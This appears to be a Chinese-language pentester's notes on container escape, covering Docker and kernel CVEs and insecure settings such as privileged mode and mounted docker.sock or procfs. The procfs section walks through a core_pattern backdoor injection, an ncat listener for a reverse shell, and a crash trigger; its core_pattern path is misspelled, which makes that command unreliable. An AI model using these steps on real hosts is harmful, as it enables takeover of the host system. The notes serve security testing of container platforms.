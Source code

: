 # 容器逃逸

目前接触的一种是容器OS内核或云技术组件漏洞导致的逃逸，这一类型实际上是NDAY漏洞的利用；另一种是不安全配置导致的漏洞，这一类型主要是因为在业务或管理平面开放或配置了过多的能力导致

## 已知漏洞逃逸

### 内核漏洞

#### 1、[脏牛漏洞（CVE-2016-5195）](..\Nday\dirtycow.md)

攻击者可以借助该漏洞向vDSO区域写入恶意代码，从而实现容器逃逸。

### Docker漏洞

1. CVE-2019-14271：加载不受信任的动态链接库

   影响版本：已在[19.03.1](https://docs.docker.com/engine/release-notes/#19031)版的Docker中被修复

   漏洞原理：事实上是因为宿主机在调用docker cp命令时，通过未容器化的docker-tar组件加载容器内部的nsswitch动态链接库，从而导致在容器内实现对宿主机的命令注入。

2. CVE-2019-5736

   影响版本：Docker版本 < 18.09.2 或者使用 runc版本 <= 1.0-rc6的环境

   漏洞详情：Docker、containerd或者其他基于runc的[容器](https://cloud.tencent.com/product/tke?from=10680)运行时存在安全漏洞，攻击者可以通过特定的[容器镜像](https://cloud.tencent.com/product/tcr?from=10680)或者exec操作可以获取到[宿主机](https://cloud.tencent.com/product/cdh?from=10680)的runc执行时的文件句柄并修改掉runc的二进制文件，从而获取到宿主机的root执行权限（诱导宿主机用户操作容器启动操作）。利用完会导致容器不可用。 

3. 



## 不安全配置导致的逃逸

对于一个对外开放的创建容器的能力在设计开发时应该慎之又慎，对于用户可以填充的启动参数应该使用白名单的设计机制，让用户无法通过恶意挂载、恶意配置来创建一个可以逃逸的容器。同时，如果有提供一个初始容器，应该注意其配置于挂载的文件，避免出现因不安全配置/挂载导致的逃逸问题。

### --privileged：特权模式运行容器

原始命令：`docker run --privileged`

当一个容器以特权模式运行时，其能够访问宿主机上的所有设备，可以通过挂载宿主机磁盘等手段获取宿主机的权限（这个权限应该是与docker运行用户的权限一致的）。

**测试思路：**对于一个提供容器能力的平台，其自然不会直接运行一个以特权模式运行的容器，通常来讲，我们需要寻找平台上开放的容器运行参数配置的相关能力及接口；特权模式能够在yaml或conf文件中配置，或者在封装的接口中也会提供对应的能力，我们需要注意开发是否将相关的能力屏蔽（仅仅前端隐藏是不够的）；假设一个容器平台没有将对应的能力限制，那么我们可以运行一个特权模式的容器，通过恶意挂载来访问宿主机的敏感文件，达到容器逃逸的效果。

### --cap-add=ALL：为容器添加所有特权

原始命令：`docker run --cap-add=ALL`

这个命令实际上是和特权模式运行容器的效果是一致的，但是其不如特权模式的缺陷而广为人知，在特权模式受到限制时，可以尝试这个命令是否也受到限制。

### 挂载Docker  Socket的情况

关键步骤：`在容器内挂载/var/run/docker.sock`

当Docker Socket被挂载到容器内时，我们通过在容器内安装docker命令行客户端，即可通过该客户端于docker进程通信；这时只需在原容器内通过docker命令创建一个新容器并挂载宿主机根目录，再通过新容器切换到挂载的宿主机根目录里，即可实现逃逸。理论上来讲，当我们能够通过命令行创建新容器时，就已经逃逸了。

### 挂载procfs的情况

背景：procfs是一个伪文件系统，它动态反映系统内进程及其他组件的状态，包含许多敏感、重要文件。

前提：容器内默认启用root权限、没有开启User Namespace

该情况的关键在于/proc/sys/kernel/core_pattern从内核2.6.19版本开始，支持程序或脚本运行，只需使首个字符为管道符“|”。那么假设procfs被我们挂载到了容器里面，并且此时我们容器的root权限为真实root权限，我们通过在core_pattern中注入后门代码，在容器内写好反弹shell，并运行一个会崩溃的程序即可触发宿主机的反弹shell

> 开启了user namespace的root权限是虚假的，可以通过以下步骤检查，如果出现文件链接则说明开启了user namespace：
>
> 进入/proc/目录
>
> $cd /proc/
>
> 查看当前目录下有哪些文件或目录
>
> $ls
>
> 随便进入一个以数字（进程号）命名的目录，比如1
>
> $cd 1
>
> 查看ns（Namespace）目录下的内容
>
> $ls -al ns

**步骤一：植入后门。**`echo -e "| /tmp/.x.py \rcore    " > /proc/sys/kernrl/core_pattern`

需要注意的是该tmp目录为容器目录，我们需要修改为宿主机的绝对路径，可通过`cat /proc/mounts | grep docker`获取容器的绝对工作路径，`${工作路径}/../merged`即为容器的根路径，作为上方tmp目录的前缀即可注入。

**步骤二：在容器内创建反弹shell。**在容器内的/tmp.x.py文件写入反弹shell，并在攻击机器上启动监听：`ncat -lvnp $port`

**步骤三：在容器内运行可以崩溃的程序。**示例代码如下：

```c++
#include <stdio.h>

int main(void){

int *a = NULL;

*a = 1;

return 0;}
```

### 任意挂载的情况

当用户可以调用API进行任意挂载时，可以使用--volume /:/host、--pid=host、--net=host等配置来打破容器与宿主机的资源隔离。
